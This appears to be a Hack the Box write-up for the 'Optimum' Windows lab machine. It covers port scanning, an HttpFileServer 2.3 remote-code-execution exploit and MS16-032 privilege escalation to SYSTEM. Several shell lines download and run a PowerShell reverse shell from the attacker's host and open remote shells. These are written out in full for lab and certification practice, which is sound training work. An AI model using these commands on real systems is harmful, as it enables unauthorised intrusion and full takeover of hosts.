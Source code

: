 ```yaml
---
title: Hack the Box - Optimum
date: 2022-08-16 21:09:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Optimum](/assets/HackTheBox/Optimum/Optimum.png)

# Optimum Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.8|Optimum|Windows|

## Path to Exploitation

The path of exploitation for this machine starts with a vulnerable web-app that we leverage to gain our initial foothold. We then enumerate the machine until we identify a potential kernel exploit that could elevate our privileges, problem is, it requires a GUI. Fortunately there's an alternative script that allows us to elevate our privileges without needed access to a GUI.

# Optimum Enumeration

## Full Port Scan

```bash
nmap 10.10.10.8 -p- -oA Optimum/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.8 -p 80 -sC -sV -oA Optimum/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|httpd 2.3|

# Website

![Landing Page](/assets/HackTheBox/Optimum/landing-page.png "Site Landing Page")

We immediately see the version of the application is HttpFileServer 2.3. A simple google search reveals several available RCE's affecting this application. We can try to launch a reverse shell using this [script](https://www.exploit-db.com/exploits/49584). 

## Shell on Host

Copy the Invoke-PowerShellTcp.ps1 script to our working directory and add the following line to the bottom of the file:

```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 443
```

Host an HTTP Server:

```shell
$ sudo python3 -m http.server 80
```

Finally, setup a listener and execute the script:

```shell
$ python3 exploit2.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

We see we have caught a reverse shell running as the kostas user

![Initial Foothold](/assets/HackTheBox/Optimum/initial-foothold.png "Intial Foothold")

# Privilege Escalation

## Enumerating with Sherlock

We can execute Sherlock.ps1 with the following command:

```shell
PS:\> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/sherlock.ps1')
```

We see three potential Kernel exploits
![Sherlock Output](/assets/HackTheBox/Optimum/sherlock-out.png "Sherlock Output")

We will start with MS16-032 but are unable to get it to work since it requires access to a GUI. There is an [alternative script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) that can be used when a GUI is not available. This script gives us the opportunity to pass commands to be executed as SYSTEM.

## Getting to SYSTEM

Use the MS16-032 exploit [PowerShell Script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) and append the following line to the bottom of the file

```shell
Invoke-MS16032 -Command "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"
```

This will execute the privilege escalation script and tell it to run our reverse shell payload as the SYSTEM account.

Trigger the exploit by running the following command on the machine:

```shell
PS:\> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-MS16032.ps1')
```

When we check on our HTTP Server we see two requests, one for Invoke-MS16032.ps1 and one for Invoke-PowerShellTcp.ps1

![HTTP Requests](/assets/HackTheBox/Optimum/http-requests.png "HTTP Requests")

When we check on our listener, we see we've have caught a shell running as the SYSTEM user

![Getting SYSTEM](/assets/HackTheBox/Optimum/priv-esc.png "SYSTEM Shell")